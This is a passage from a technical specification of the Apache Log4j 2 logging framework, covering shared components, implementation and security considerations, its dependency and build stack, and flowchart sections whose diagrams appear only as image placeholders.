- Lookup system (F-010) provides variable resolution for Spring integration (F-013)

### 2.3.3 Shared Components

**LoggerContext Management:**
- Shared by all features for logger hierarchy management and lifecycle control
- Provides central registry for logger instances and configuration updates
- Manages plugin discovery and component initialization

**Configuration Registry:**
- Central repository for all component configurations
- Supports hot-reload capabilities across all features
- Provides configuration inheritance and property resolution

**Plugin Manager:**
- Discovery and instantiation mechanism for all plugins
- Supports annotation-based registration and runtime scanning
- Manages plugin lifecycle and dependency injection

**Layout and Formatting:**
- Shared formatting logic across all appenders
- Provides consistent message transformation and serialization
- Supports custom converters and format specifications

## 2.4 IMPLEMENTATION CONSIDERATIONS

### 2.4.1 Core Framework Considerations

**Technical Constraints:**
- Must maintain thread safety across all operations without compromising performance
- Plugin scanning performance impacts startup time; requires optimization for large classpaths
- Configuration parsing must handle malformed inputs gracefully with meaningful error messages
- Memory usage must be bounded to prevent OutOfMemoryError in long-running applications

**Performance Requirements:**
- Logger lookup: O(1) performance after initial creation through caching mechanisms
- Event processing: < 100ns for synchronous logging path in steady-state operation
- Configuration reload: < 100ms for typical configurations without blocking active logging
- Plugin discovery: < 1 second for standard application startup scenarios

**Security Implications:**
- JNDI lookups require careful validation to prevent injection attacks (addresses CVE-2021-44228)
- Script filters need proper sandboxing to prevent code execution vulnerabilities
- File appenders require path traversal protection for secure file operations
- Network appenders must validate connection parameters to prevent network-based attacks

### 2.4.2 Appender Implementation Considerations

**Technical Constraints:**
- Network appenders must handle connection failures, timeouts, and reconnection scenarios
- Database appenders require connection pool management and transaction handling
- File appenders need OS-specific file locking and atomic operations for consistency
- Message queue appenders must handle broker failures and message delivery guarantees

**Scalability Requirements:**
- Support hundreds of concurrent appenders without resource exhaustion
- Buffer management for high-throughput scenarios with configurable memory limits
- Graceful degradation under load with backpressure handling
- Dynamic reconfiguration without stopping active logging operations

**Maintenance Requirements:**
- Comprehensive appender lifecycle management with proper resource cleanup
- Automatic error recovery mechanisms for transient failures
- Monitoring and health check capabilities for operational visibility
- Rollback capabilities for failed configuration updates

### 2.4.3 Integration Considerations

**Technical Constraints:**
- Web module must support servlet 2.5+ containers for broad compatibility
- Spring module requires Spring 4.2+ compatibility with auto-configuration support
- OSGi bundle must declare proper imports/exports for modular deployment
- Legacy bridge must maintain binary compatibility with Log4j 1.x API contracts

**Performance Requirements:**
- Minimal overhead for compatibility layers (< 5% performance impact)
- Lazy initialization for optional features to reduce startup time
- Efficient context switching in web environments without memory leaks
- Optimized integration with framework-specific features and patterns

**Security Implications:**
- Proper isolation in multi-tenant environments with secure context separation
- Secure defaults for all integrations to prevent misconfiguration vulnerabilities
- Audit trail capabilities for security monitoring and compliance requirements
- Protection against configuration injection attacks through input validation

#### References

**Files Examined:**
- `README.md` - Project overview and usage examples
- `SECURITY.md` - Security policy and vulnerability procedures
- `BUILDING.md` - Build requirements and development setup
- `pom.xml` - Project structure and module definitions
- `log4j-api/pom.xml` - API module specifications and dependencies
- `log4j-core/pom.xml` - Core implementation requirements
- `log4j-web/pom.xml` - Web integration module specifications
- `log4j-spring-boot/pom.xml` - Spring Boot integration requirements
- `log4j-osgi/pom.xml` - OSGi bundle specifications
- `log4j-1.2-api/pom.xml` - Legacy compatibility bridge requirements
- `log4j-iostreams/pom.xml` - I/O streams integration specifications
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/` - Appender implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/layout/` - Layout implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/filter/` - Filter implementations
- `log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/` - Lookup implementations

**Folders Explored:**
- `(root)/` - Repository structure and module overview
- `src/` - Documentation and site resources
- `log4j-api/` - API module structure and components
- `log4j-core/` - Core implementation structure
- `log4j-web/` - Web integration module
- `log4j-spring-boot/` - Spring Boot integration
- `log4j-osgi/` - OSGi integration module
- `log4j-1.2-api/` - Legacy compatibility layer
- `log4j-iostreams/` - I/O streams integration
- Various implementation folders for appenders, layouts, filters, and lookups
- Test resource folders for validation and examples

# 3. TECHNOLOGY STACK

## 3.1 PROGRAMMING LANGUAGES

### 3.1.1 Primary Programming Language

**Java**
- **Primary Version**: Java 8+ (required for Log4j 2.4+)
- **Minimum Version**: Java 7+ (for legacy compatibility)
- **Advanced Version**: Java 11+ (required for specific modules: log4j-jpl, log4j-perf)
- **Future Support**: Java 9+ features through multi-release JAR packaging

**Selection Criteria:**
- **Enterprise Ecosystem**: Java's dominant position in enterprise logging requirements
- **Performance Requirements**: JVM optimization capabilities for high-throughput logging scenarios
- **Platform Compatibility**: Cross-platform deployment requirements across diverse enterprise environments
- **Backward Compatibility**: Gradual migration path from Log4j 1.x legacy systems

**Version Strategy:**
- **Multi-Release JARs**: Separate Java 9+ modules (log4j-api-java9, log4j-core-java9) for advanced features
- **Toolchain Support**: Maven toolchain configuration for cross-version compilation
- **Compatibility Matrix**: Extensive CI testing across Java 8, 11, and 17 versions

### 3.1.2 Build Configuration Language

**Maven POM XML**
- **Version**: Maven 3.6.3+ (via Maven Wrapper)
- **Configuration**: Multi-module project structure with 35+ modules
- **Justification**: Industry standard for Java dependency management and build lifecycle

## 3.2 FRAMEWORKS & LIBRARIES

### 3.2.1 Core Framework Architecture

**Log4j 2 Core Framework**
- **log4j-api**: Public API facade with complete implementation separation
- **log4j-core**: Core implementation engine with plugin architecture
- **Plugin Framework**: Annotation-driven component discovery and registration
- **Justification**: Modular architecture enables extensibility while maintaining performance

### 3.2.2 Asynchronous Processing Frameworks

**LMAX Disruptor**
- **Version**: 3.4.2
- **Purpose**: High-performance asynchronous logging with lock-free operations
- **Justification**: Achieves >1M events/second throughput with sub-millisecond latency

**Conversant Disruptor**
- **Version**: 1.2.15
- **Purpose**: Alternative disruptor implementation for specific use cases
- **Justification**: Provides additional performance optimization options

**JCTools**
- **Version**: 1.2.1
- **Purpose**: Concurrent collections optimized for low-latency scenarios
- **Justification**: Reduces garbage collection pressure in high-throughput environments

### 3.2.3 Data Processing Libraries

**Jackson Ecosystem**
- **Jackson Core**: 2.12.2
- **Jackson Databind**: 2.12.2
- **Jackson Annotations**: 2.12.2
- **Jackson Dataformat YAML**: 2.12.2
- **Jackson Dataformat XML**: 2.12.2
- **Justification**: Industry standard for JSON/XML processing with extensive configuration format support

**Woodstox**
- **Version**: 6.2.4
- **Purpose**: High-performance XML processing
- **Justification**: Optimized XML parsing for configuration and structured output

**Commons CSV**
- **Version**: 1.8
- **Purpose**: CSV format output generation
- **Justification**: Enables structured data export for spreadsheet analysis

### 3.2.4 Spring Framework Integration

**Spring Framework**
- **Version**: 5.3.3
- **Purpose**: Core Spring integration capabilities
- **Justification**: Enables property lookup and environment-aware configuration

**Spring Boot**
- **Version**: 2.3.6.RELEASE
- **Purpose**: Auto-configuration and Spring Boot integration
- **Justification**: Reduces configuration complexity in Spring Boot applications

**Spring Cloud Config**
- **Integration**: Custom lookup providers for distributed configuration
- **Justification**: Supports cloud-native configuration management patterns

## 3.3 OPEN SOURCE DEPENDENCIES

### 3.3.1 Testing Framework Dependencies

**JUnit Ecosystem**
- **JUnit 4**: 4.13.2 (legacy test compatibility)
- **JUnit Jupiter**: 5.7.1 (modern test framework)
- **Justification**: Comprehensive test coverage across unit, integration, and performance testing

**Mock and Assertion Libraries**
- **Mockito**: 3.8.0 (mocking framework)
- **Hamcrest**: 1.3 (assertion matchers)
- **AssertJ**: 3.19.0 (fluent assertions)
- **Awaitility**: 4.0.3 (asynchronous testing)
- **XMLUnit**: 2.8.2 (XML comparison testing)
- **WireMock**: 2.26.3 (HTTP service mocking)

**Performance Testing**
- **JMH (Java Microbenchmark Harness)**: 1.21
- **HdrHistogram**: 2.1.9
- **Java Allocation Instrumenter**: 3.0.1
- **Justification**: Rigorous performance validation for high-throughput scenarios

### 3.3.2 Database Connectivity Libraries

**JDBC Drivers**
- **HSQLDB**: 2.5.1 (embedded database for testing)
- **H2 Database**: 1.4.200 (development and testing)
- **Commons DBCP2**: 2.8.0 (connection pooling)

**NoSQL Drivers**
- **MongoDB Java Driver**: 3.12.7 (MongoDB 3.x support)
- **MongoDB Java Driver**: 4.2.2 (MongoDB 4.x support)
- **Cassandra Java Driver**: 3.1.4
- **LightCouch**: 0.0.6 (CouchDB integration)

**JPA Support**
- **EclipseLink**: 2.6.5
- **JPA API**: 2.1.1
- **Justification**: Enterprise-grade database integration with connection pooling

### 3.3.3 Message Queue and Streaming Libraries

**Apache Kafka**
- **Kafka Clients**: 1.1.1
- **Purpose**: High-throughput message streaming
- **Justification**: Industry standard for event-driven architectures

**Apache Flume**
- **Version**: 1.9.0
- **Purpose**: Log data collection and aggregation
- **Justification**: Specialized for log data pipeline integration

**Apache ActiveMQ**
- **Version**: 5.16.1
- **Purpose**: JMS-compliant messaging
- **Justification**: Enterprise message queue integration

**ZeroMQ**
- **JeroMQ**: 0.4.3 (Java implementation)
- **Purpose**: High-performance messaging
- **Justification**: Low-latency messaging for high-frequency logging

### 3.3.4 Utility Libraries

**Console and I/O**
- **Jansi**: 2.3.1 (console color support)
- **Commons Compress**: 1.20 (compression utilities)
- **XZ**: 1.8 (XZ compression format)

**Scripting Support**
- **Groovy**: 3.0.7 (dynamic scripting)
- **Beanshell**: 2.0b6 (Java scripting)
- **picocli**: Command-line interface tools

**Mail Integration**
- **JavaMail**: 1.6.2 (email appender support)

## 3.4 THIRD-PARTY SERVICES

### 3.4.1 Cloud Native Services

**Kubernetes Integration**
- **Fabric8 Kubernetes Client**: 4.6.1
- **Purpose**: Kubernetes metadata lookup and integration
- **Justification**: Cloud-native deployment support with container orchestration

**Container Services**
- **Docker**: Container packaging and deployment
- **Docker Compose**: Multi-container application orchestration
- **Justification**: Standardized container deployment across environments

### 3.4.2 External API Integrations

**System Integration APIs**
- **JMX (Java Management Extensions)**: Management and monitoring
- **JNDI (Java Naming and Directory Interface)**: Resource lookup
- **OSGi Framework**: Modular application runtime
- **Justification**: Enterprise system integration requirements

**Servlet Container Integration**
- **Servlet API**: 2.5+ (web application integration)
- **JMS API**: 1.1 (message queue integration)
- **Justification**: Application server deployment compatibility

### 3.4.3 Development and Analysis Services

**Code Quality Services**
- **Checkstyle**: 3.0.0 (code style enforcement)
- **SpotBugs**: 4.0.4 (static analysis)
- **FindSecBugs**: 1.10.1 (security vulnerability detection)
- **PMD**: 3.10.0 (code quality analysis)
- **RevAPI**: 0.11.1 (API compatibility analysis)

**Documentation Services**
- **Maven Javadoc Plugin**: 3.0.1
- **Maven Site Plugin**: 3.8.2
- **Asciidoctor**: 1.5.6 (documentation generation)

## 3.5 DATABASES & STORAGE

### 3.5.1 Relational Database Support

**In-Memory Databases**
- **HSQLDB**: 2.5.1 (testing and development)
- **H2 Database**: 1.4.200 (lightweight embedded database)
- **Justification**: Development and testing environments with rapid startup

**Connection Management**
- **Apache Commons DBCP2**: 2.8.0
- **Purpose**: Production-grade connection pooling
- **Justification**: Optimized database connection lifecycle management

### 3.5.2 NoSQL Database Support

**Document Databases**
- **MongoDB**: Support for versions 3.x and 4.x through dedicated drivers
- **CouchDB**: Integration via LightCouch 0.0.6
- **Justification**: Flexible schema support for structured log data

**Column-Family Databases**
- **Apache Cassandra**: 3.1.4 driver support
- **Purpose**: Distributed, high-availability log storage
- **Justification**: Scalable storage for high-volume logging scenarios

### 3.5.3 Caching and Performance Solutions

**Memory Management**
- **Object Pooling**: Built-in object reuse for garbage-free operation
- **Ring Buffers**: LMAX Disruptor-based buffering
- **Justification**: Minimizes garbage collection pressure in high-throughput scenarios

**Storage Optimization**
- **File Compression**: XZ, GZIP support for log archival
- **Rolling Policies**: Size-based and time-based file rotation
- **Justification**: Efficient disk usage and long-term retention management

## 3.6 DEVELOPMENT & DEPLOYMENT

### 3.6.1 Build System

**Maven Build System**
- **Maven Version**: 3.6.3 (via Maven Wrapper)
- **Maven Wrapper**: Takari 0.5.6 for reproducible builds
- **Multi-module Structure**: 35+ modules with dependency management
- **Justification**: Industry standard with comprehensive dependency management

**Build Configuration**
- **Maven Toolchains**: Cross-JDK compilation support
- **Multi-Release JARs**: Java 9+ feature support
- **OSGi Bundle Configuration**: All modules configured as OSGi bundles/fragments
- **Justification**: Flexible deployment across diverse enterprise environments

### 3.6.2 Continuous Integration

**GitHub Actions CI/CD**
- **Cross-Platform Testing**: Ubuntu, Windows, macOS
- **Java Version Matrix**: Java 8, 11, 17 compatibility testing
- **Automated Workflows**: Build, test, and security scanning
- **Justification**: Comprehensive platform coverage with automated quality gates

**Dependency Management**
- **Dependabot**: Automated dependency updates
- **Security Scanning**: Automated vulnerability detection
- **Justification**: Proactive security maintenance and dependency management

### 3.6.3 Containerization

**Docker Support**
- **Dockerfile**: Multi-stage builds for optimized images
- **Container Registry**: Artifact distribution
- **Justification**: Standardized deployment across container orchestration platforms

**Container Orchestration**
- **Kubernetes**: Native integration via log4j-kubernetes module
- **OpenShift**: Enterprise Kubernetes platform support
- **Justification**: Cloud-native deployment patterns with metadata awareness

### 3.6.4 Development Tools

**IDE Integration**
- **Eclipse**: Native OSGi bundle support
- **IntelliJ IDEA**: Maven project structure support
- **Justification**: Developer productivity across popular IDEs

**Debugging and Profiling**
- **JProfiler**: Performance profiling integration
- **Flight Recorder**: JVM diagnostic capabilities
- **Justification**: Production debugging and performance analysis

### 3.6.5 Quality Assurance

**Static Analysis Integration**
- **SonarQube**: Code quality and security analysis
- **Checkstyle**: Code style enforcement
- **SpotBugs + FindSecBugs**: Security vulnerability detection
- **Justification**: Automated code quality gates with security focus

**Performance Testing**
- **JMH Integration**: Microbenchmark testing framework
- **Load Testing**: High-throughput scenario validation
- **Justification**: Performance regression prevention and optimization validation

## 3.7 SECURITY CONSIDERATIONS

### 3.7.1 Vulnerability Management

**Security Scanning**
- **FindSecBugs**: Static security analysis
- **Dependabot**: Automated dependency vulnerability scanning
- **Regular Security Audits**: Quarterly security assessments
- **Justification**: Proactive security posture following Log4Shell incident

**Secure Communication**
- **SSL/TLS Support**: Network appender security
- **Certificate Management**: Configurable truststore/keystore management
- **Justification**: Secure log transmission in enterprise environments

### 3.7.2 Integration Security

**Authentication Integration**
- **JAAS (Java Authentication and Authorization Service)**: Security framework integration
- **LDAP Integration**: Directory service authentication
- **Justification**: Enterprise authentication system compatibility

**Data Protection**
- **Sensitive Data Filtering**: Configurable pattern-based filtering
- **Encryption Support**: Configurable encryption for sensitive log data
- **Justification**: Compliance with data protection regulations

#### References

**Files Examined:**
- `pom.xml` - Root Maven configuration with comprehensive dependency management
- `Dockerfile` - Container build configuration and deployment strategy
- `.github/dependabot.yml` - Automated dependency update configuration
- `.github/workflows/main.yml` - CI/CD pipeline configuration with cross-platform testing
- `.github/workflows/maven-toolchains.xml` - JDK toolchain configuration for multi-version builds
- `.mvn/wrapper/maven-wrapper.properties` - Maven wrapper configuration for reproducible builds
- `.mvn/wrapper/MavenWrapperDownloader.java` - Maven wrapper bootstrap implementation
- `log4j-core/pom.xml` - Core module dependencies and plugin configuration
- `log4j-core/revapi.json` - API compatibility validation configuration
- `log4j-spring-boot/pom.xml` - Spring Boot integration dependencies
- `log4j-mongodb3/pom.xml` - MongoDB 3.x integration dependencies
- `log4j-kubernetes/pom.xml` - Kubernetes integration dependencies
- `log4j-perf/pom.xml` - Performance testing framework dependencies

**Folders Analyzed:**
- `/` - Project root structure and configuration
- `.github/` - GitHub automation and workflow configuration
- `.github/workflows/` - CI/CD workflow definitions
- `.mvn/` - Maven wrapper configuration and utilities
- `.mvn/wrapper/` - Maven wrapper implementation
- `log4j-core/` - Core implementation module structure
- `log4j-spring-boot/` - Spring Boot integration module
- `log4j-docker/` - Docker support and containerization module

# 4. PROCESS FLOWCHART

## 4.1 SYSTEM WORKFLOWS

### 4.1.1 Core Business Processes

#### 4.1.1.1 End-to-End Logging Event Flow

The primary business process in Log4j 2 involves capturing, processing, and outputting log events through a sophisticated pipeline that maintains high performance while ensuring reliability and flexibility.



#### 4.1.1.2 Configuration Management Workflow

Configuration management is a critical business process that enables dynamic system behavior modification without service interruption.



### 4.1.2 Integration Workflows

#### 4.1.2.1 Plugin Architecture Workflow

The plugin system enables extensible architecture through annotation-based component discovery and registration.



#### 4.1.2.2 Asynchronous Processing Workflow

Asynchronous logging uses the LMAX Disruptor pattern for high-performance, lock-free event processing.



## 4.2 FLOWCHART REQUIREMENTS

### 4.2.1 Process Steps and Decision Points

#### 4.2.1.1 Logger Hierarchy Resolution



### 4.2.2 Validation Rules and Authorization

#### 4.2.2.1 Security Validation Workflow



### 4.2.3 Error States and Recovery Paths

#### 4.2.3.1 Appender Error Recovery



## 4.3 TECHNICAL IMPLEMENTATION

### 4.3.1 State Management

#### 4.3.1.1 LoggerContext State Transitions



#### 4.3.1.2 Appender Lifecycle States



### 4.3.2 Error Handling Implementation

#### 4.3.2.1 Hierarchical Error Handling

